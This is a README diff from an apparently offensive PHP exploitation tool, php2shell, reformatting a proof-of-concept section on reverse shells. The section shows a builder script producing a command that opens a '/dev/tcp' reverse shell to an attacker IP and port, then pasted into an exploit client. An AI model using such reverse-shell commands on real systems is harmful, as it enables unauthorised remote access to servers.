

Before and after one commit to hoed/php2shell, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -311,17 +311,28 @@ php2shell-sentinel assess \
 
 > 🔒 Targets **not** in `--allowlist` are skipped automatically.
 
-# 1. Generate the reverse shell command
----bash
+#### Reverse Shell Execution (PoC)
+
+**1. Generate the reverse shell command**
+
+```bash
 python3 reverse_shell_builder.py
+```
+
+```
 Output:... Enter Attacker IP:...
 Output:... Enter Attacker Port: 4444...
 Output: Command to execute via php2shell: exec 5<>/dev/tcp/192.168.1.50/4444;...
+```
 
-# 2. Execute it using the Python client
+**2. Execute it using the Python client**
+
+```bash
 python3 php2shell_exploit_tool.py
-(Inside the tool, paste the command from step 1 into the interactive shell)
----
+```
+
+> *(Inside the tool, paste the command from step 1 into the interactive shell)*
+
 ---
 
 ### 4. `fingerprint` — Deep Fingerprint
````
